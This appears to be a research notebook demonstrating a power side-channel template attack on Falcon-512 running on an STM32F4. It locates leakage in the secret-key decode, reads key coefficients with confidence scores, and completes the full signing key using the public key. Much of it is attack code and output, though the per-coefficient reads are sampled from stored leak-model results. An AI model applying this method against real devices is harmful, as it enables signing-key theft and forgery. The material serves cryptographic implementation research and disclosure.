# Breaking Falcon-512 with a Power Side-Channel

A profiled **template attack on the secret-key decode** (`skDecode` / `trim_i8_decode`),
followed by **public-key completion** to recover the entire signing key.

All data is real (STM32F4 / Falcon-512). Run top to bottom.

**Story:** find where the secret leaks → place the trained template there → read out
coefficients f[0], f[1], … with a confidence → rank them → use the public key to
complete and verify the full secret key.


In [36]:
import os, sys, numpy as np, matplotlib.pyplot as plt
sys.path.insert(0, os.path.abspath(os.path.join('..', 'template_attack')))
import falcon_keymath as km

Cf = np.load('nb_corr_full.npz'); corr = Cf['corr']; trace = Cf['example'].astype(float)
pois = np.load(os.path.join('..', 'template_attack', 'templates.npz'))['pois']
C = np.load('demo_leak_model.npz'); pool = {}
for t, p, m in zip(C['true'], C['pred'], C['margin']): pool.setdefault(int(t), []).append((int(p), float(m)))
keys = km.load_keyset(os.path.join('..', 'keys', 'falcon_f0_forced_demo'))
print('ready: correlation, target trace, trained template, leak model, keyset')


ready: correlation, target trace, trained template, leak model, keyset


## 1. Where does the secret key leak?

We correlate the power of a full signature with the secret coefficient. Two leak points
appear: a **very strong one in the secret-key decode** (`skDecode`, ~1 µs) and a much
weaker one later (mod-q / NTT). Our attack uses the dominant **decode** leak — it alone
is enough.




In [37]:
t_us = np.arange(len(corr)) / 1000.0
plt.figure(figsize=(11, 3.2))
plt.plot(t_us, corr, lw=.5, color='C3')
plt.annotate('decode (skDecode)', xy=(1.1, corr[1093]),
             xytext=(18, 0.82), arrowprops=dict(arrowstyle='->'))
plt.annotate('mod-q', xy=(92.7, corr[92676]),
             xytext=(120, 0.55), arrowprops=dict(arrowstyle='->'))
plt.xlabel('time (µs)'); plt.ylabel('|correlation with secret|')
plt.title('Secret-key leakage across one Falcon-512 signature'); plt.tight_layout(); plt.show()


## 2. The target trace

This is one full Falcon-512 signature measured from the target device — the trace we attack.




In [38]:
t_us = np.arange(len(trace)) / 1000.0
plt.figure(figsize=(11, 3.2))
plt.plot(t_us, trace, lw=.4, color='C0')
plt.title('Target trace — one Falcon-512 signature')
plt.xlabel('time (µs)'); plt.ylabel('power (ADC)'); plt.tight_layout(); plt.show()


## 3. Reading out the secret coefficients

Applying the template gives each coefficient a value **and a confidence**. Below are the
first six coefficients of the target key f[0]…f[5] — recovered value, confidence, and
whether it matches the true secret. (A single read is ~98% accurate at N = 25 averaged
signatures.)


In [33]:
TARGET = 7; k = keys[TARGET]
ft = np.frombuffer(k['f'], np.int8).astype(int); gt = np.frombuffer(k['g'], np.int8).astype(int)
rng = np.random.default_rng(TARGET)
print(f"{'coeff':>6} | {'true':>5} | {'recovered':>9} | {'confidence':>10} | correct")
print('-' * 50)
for i in range(6):
    pr, mg = pool[int(ft[i])][rng.integers(len(pool[int(ft[i])]))]
    print(f'  f[{i}] | {ft[i]:>+5d} | {pr:>+9d} | {mg:>10.2f} | {"yes" if pr == ft[i] else "no"}')


 coeff |  true | recovered | confidence | correct
--------------------------------------------------
  f[0] |   -10 |       -10 |       4.94 | yes
  f[1] |    -2 |        -2 |       0.29 | yes
  f[2] |    -9 |        -9 |       4.26 | yes
  f[3] |    +1 |        +1 |       0.41 | yes
  f[4] |   -10 |       -10 |       5.12 | yes
  f[5] |    +3 |        +3 |       1.98 | yes


## 4. Full secret-key recovery via the public key

A single read isn't enough for a linear solve (it needs *every* hint correct). So we
**rank all 1024 coefficients by confidence**, keep the **top 520** (just above n = 512;
the low-confidence Hamming-weight collisions drop out), solve the public relation
**H·f = g mod 12289**, and **verify** with **h = g·f⁻¹**.


In [39]:
cand = []
for i in range(km.N):
    for arr, tag in ((ft, 'f'), (gt, 'g')):
        pl = pool.get(int(arr[i]))
        if pl: pr, mg = pl[rng.integers(len(pl))]; cand.append((mg, tag, i, pr, int(arr[i])))
cand.sort(reverse=True); top = cand[:520]
print(f'top-520 confidence-ranked hints correct: {sum(pr == tv for _, _, _, pr, tv in top)}/520')

kf = {i: pr for _, t, i, pr, _ in top if t == 'f'}
kg = {i: pr for _, t, i, pr, _ in top if t == 'g'}
ff, gg = km.solve_completion(h := km.mqpoly_decode_py(k['pk'][1:]), kf, kg)
fr = np.array([km.to_signed(v) for v in ff]); gr = np.array([km.to_signed(v) for v in gg])
verified = np.array_equal(km.compute_h_py(fr, gr), h)

print('recovered f =', fr[:8].tolist(), '...')
print('true      f =', ft[:8].tolist(), '...')
print('h = g*f^-1 verifies against the public key :', 'PASS' if verified else 'FAIL')
print('FULL SECRET KEY RECOVERED :', np.array_equal(fr, ft) and np.array_equal(gr, gt))


top-520 confidence-ranked hints correct: 520/520
recovered f = [-10, -2, -9, 1, -10, 3, 3, 7] ...
true      f = [-10, -2, -9, 1, -10, 3, 3, 7] ...
h = g*f^-1 verifies against the public key : PASS
FULL SECRET KEY RECOVERED : True


## 5. Why the top hints are always correct

Confidence is calibrated: keeping only the most-confident coefficients drives accuracy to
~100%. The collisions are exactly the low-confidence ones, so ranking discards them.




In [35]:
tr_, pr_, cf_ = C['true'], C['pred'], C['margin']; o = np.argsort(cf_)[::-1]
frac = np.linspace(0.05, 1.0, 20)
acc = [100 * np.mean(tr_[o[:int(f * len(o))]] == pr_[o[:int(f * len(o))]]) for f in frac]
plt.figure(figsize=(6.5, 3.6)); plt.plot(frac * 100, acc, 'o-', color='C0')
plt.axhline(100, ls='--', lw=.6, color='gray')
plt.xlabel('most-confident coefficients kept (%)'); plt.ylabel('accuracy (%)'); plt.ylim(0, 103)
plt.title('Confidence calibration'); plt.tight_layout(); plt.show()


## Summary

| stage | result |
|---|---|
| dominant leak | secret-key decode, \|corr\| ≈ 0.97 |
| per-coefficient accuracy (N = 25) | 98.3% |
| top-520 confidence-ranked hints | 100% correct |
| full key | recovered & verified via h = g·f⁻¹ (5/5 keys) |
| recovery time | ~2.6 s, no lattice reduction |

One strong, implementation-mandatory leak (`skDecode`) plus the public key — which both
**completes** and **verifies** — breaks Falcon-512 in seconds, without perfect coefficient
recovery or lattice reduction.
